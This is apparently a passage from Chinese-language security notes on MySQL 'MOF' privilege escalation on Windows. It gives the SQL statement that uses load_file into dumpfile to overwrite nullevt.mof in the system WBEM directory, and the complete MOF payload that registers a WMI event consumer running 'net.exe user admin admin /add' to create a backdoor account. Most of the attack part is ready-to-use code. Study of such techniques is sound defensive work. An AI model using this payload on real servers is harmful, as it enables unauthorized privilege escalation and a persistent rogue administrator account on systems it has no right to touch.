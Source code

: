1. 导出自定义 mof 文件到系统目录加载

2. 同udf一样需要手工修改my.ini配置文件，添加 `secure_file_priv=''`

**以下是mof提权的过程：**

将mof上传至任意可读可写目录下，一般为网站根目录，命名为`user_add.mof`。

然后使用sql语句将系统当中默认的nullevt.mof给替换掉。进而让系统执行我们这个恶意的mof文件。

替换的sql语句：

```mysql
select load_file('所上传的mof文件') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

mof文件代码如下所示：

```vbscript
#pragma namespace("\\\\.\\root\\subscription") 

instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")"; 
	' 这一段命令就是添加一个用户。
}; 

instance of __FilterToConsumerBinding 
{ 
	Consumer = $Consumer; 
    Filter = $EventFilter; 
};
```

查找之后发现系统没有这个mof文件。

![查找原来的mof文件](./MySQL/查找原来的mof文件.png)
